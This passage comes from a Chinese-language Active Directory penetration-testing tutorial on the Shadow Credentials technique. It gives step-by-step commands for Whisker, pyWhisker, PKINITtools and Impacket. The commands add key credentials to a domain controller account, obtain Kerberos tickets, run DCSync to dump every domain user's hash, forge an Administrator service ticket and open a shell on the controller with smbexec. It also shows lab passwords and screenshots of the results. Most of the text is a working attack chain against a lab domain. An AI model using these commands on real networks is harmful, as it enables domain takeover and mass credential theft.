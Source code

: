 ```console
C:\Users\Marcus\Desktop> Whisker.exe remove /target:DC01$ /deviceid:<DeviceID>
```

## pyWhisker

如果拥有所需权限的帐户的凭据已知，则该技术也可以从未加入域的系统执行。Charlie Bromberg（[@_nwodtuhs](https://twitter.com/_nwodtuhs)）通过 Python 实现了 Whisker ，共发布了名为 [pyWhisker](https://github.com/ShutdownRepo/pywhisker) 的工具，以实现在未连接到域网络的主机上操作。

（1）执行以下命令，对域控制器账户执行攻击，生成的证书将以 .pfx 格式保存在本地，如下图所示。

```bash
python3 pywhisker.py -d "pentest.com" -u "Marcus" -p "Marcus@123" --target "DC01$" --action "add" --filename dc01
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427144154732.png)

（2）pyWhisker 得到的证书可以与 Dirk-jan Mollema（[@dirkjanm](https://twitter.com/_dirkjan)）的 [PKINITtools](https://github.com/dirkjanm/PKINITtools) 一起使用，以通过 KDC 进行身份验证，并请求以 .ccache 格式保存的 TGT 票据，如下图所示。

```bash
python3 gettgtpkinit.py -cert-pfx dc01.pfx -pfx-pass sR68YYFbN6WQIkdBxrol pentest.com/dc01\$ dc01.ccache
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427144427355.png)

（3）由于域控制器账户拥有所需特权，我们可以设置环境变量 `KRB5CCNAME`，通过 [Impacket](https://github.com/SecureAuthCorp/impacket) 套件中的 secretsdump.py 使用该票据，并执行 DCSync 来导出域用户哈希，如下图所示。

```bash
export KRB5CCNAME=/root/PKINITtools/dc01.ccache
python3 secretsdump.py -k pentest.com/dc01\$@dc01.pentest.com -no-pass -just-dc
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427144809803.png)

（4）此外，我们可以通过 Kerberos 的 S4U2Self 扩展协议，使用已获取的域控 TGT 为域管理员用户申请针对域控上其他服务的的 ST 票据。这里我们请求的是域控制器的 CIFS 服务，相关命令如下：

```bash
python3 gets4uticket.py kerberos+ccache://pentest.com\\dc01\$:dc01.ccache@dc01.pentest.com cifs/dc01.pentest.com@pentest.com Administrator@pentest.com Administrator.ccache -v
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427144954906.png)

（5）最后，我们通过设置环境变量 `KRB5CCNAME` 来使用 Administrator 用户的票据，并通过 smbexec.py 获取域控制器的最高权限，相关命令如下。

```bash
export KRB5CCNAME=/root/PKINITtools/Administrator.ccache
python3 smbexec.py -k pentest.com/Administrator@dc01.pentest.com -no-pass
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427145108108.png)
## Coerced Authentication
